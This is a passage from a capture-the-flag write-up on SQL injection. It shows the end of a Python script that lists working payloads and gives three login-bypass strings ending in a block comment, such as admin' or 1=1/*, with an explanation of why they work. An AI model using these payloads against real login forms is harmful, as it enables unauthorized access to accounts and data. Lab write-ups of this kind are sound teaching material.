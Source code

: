 ```Python
            print(len(workingPayloads))
print("These payloads worked!")
for l in workingPayloads:
    print(l)

```

And here is a snippet of its output

![](assets/ctf_more_sqli_python_script_output.png)

And here are the payloads that worked

![](assets/ctf_more_sqli_working_payloads.png)

```
admin'/*
admin' or '1'='1'/*
admin' or 1=1/*
```

What is the common thing between the three payloads?

The three payloads share the `/*` character at the end of the payloads which means the start of a block comment in SQL. This is working because The SQL server will ignore everything from the start of the comment block `/*` until the end of the comment block `*/`. And if only the starting block is introduced, everything after will get ignored.
